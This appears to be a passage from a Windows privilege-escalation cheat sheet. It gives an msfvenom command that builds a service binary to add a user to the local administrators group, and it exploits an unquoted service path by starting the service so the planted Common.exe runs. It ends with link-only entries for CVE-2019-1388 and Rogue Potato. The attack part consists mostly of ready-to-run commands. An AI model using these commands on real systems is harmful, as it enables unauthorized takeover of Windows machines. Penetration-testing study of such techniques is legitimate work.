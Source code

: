 ```
msfvenom -p windows/exec CMD='net localgroup administrators user /add' -f exe-service -o common.exe
```

```
sc start blahservice
```

result? This file will be executed!

```
C:\Program Files\Unquoted Path Service\Common.exe
```

## CVE-2019-1388

https://www.youtube.com/watch?v=3BQKpPNlTSo

https://www.rapid7.com/db/vulnerabilities/msft-cve-2019-1388/

## Rogue Potato

https://github.com/antonioCoco/RoguePotato

